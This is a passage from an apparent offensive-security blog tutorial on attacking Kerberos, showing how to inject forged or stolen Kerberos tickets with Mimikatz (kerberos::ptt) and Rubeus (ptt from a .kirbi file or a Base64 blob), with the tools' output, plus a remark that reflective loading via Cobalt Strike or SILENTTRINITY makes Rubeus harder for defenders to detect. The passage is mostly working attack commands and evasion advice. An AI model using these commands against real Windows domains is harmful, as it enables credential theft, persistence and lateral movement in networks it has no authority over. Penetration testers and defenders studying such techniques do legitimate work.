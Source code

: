 We can then use this `kirbi` ticket for a certain level of persistence and/or inject them with Rubeus which Iw ill display below.

	mimikatz.exe
	kerberos::ptt persistance4life.kirbi

#### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-4)Injecting Ticket with Rubeus

>

> Rubeus is effectively a Kerberos attack tool which we will cover a lot in this article that is developed in C#/.NET meaning it is a lot harder for defenders to detect it it’s reflectively loaded using something like Cobalt’s `execute-assembly`>  or `SILENTTRINITY`>  You can also reflectively load it from PowerShell but I will be covering `.NET`>  in greater detail in a future article.

>
> https://github.com/GhostPack/Rubeus
***Disclaimer : This is an exact copy of this section under Silver Tickets***

As we have discussed Rubeus loads in this article already under `Kerberoasting` and `AS REP` I will jump straight to the chase.

We can use Rubeus to inject Silver Tickets into our session by 2 methods, `.kirbi` file or a Base64 of said `.kirbi` file which I find very useful.

Inject `.kirbi` from Disk

	PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

	(_____ \      | |
	 _____) )_   _| |__  _____ _   _  ___
	|  __  /| | | |  _ \| ___ | | | |/___)
	| |  \ \| |_| | |_) ) ____| |_| |___ |
	|_|   |_|____/|____/|_____)____/(___/

	v1.3.3

	[*] Action: Import Ticket
	[+] Ticket successfully imported!

	PS C:\Users\m0chan> .\Rubeus.exe klist

Inject `.kirbi` from Base64 Blog

	PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:BASE64BLOBHERE

	(_____ \      | |
	 _____) )_   _| |__  _____ _   _  ___
	|  __  /| | | |  _ \| ___ | | | |/___)
	| |  \ \| |_| | |_) ) ____| |_| |___ |
	|_|   |_|____/|____/|_____)____/(___/

	v1.3.3
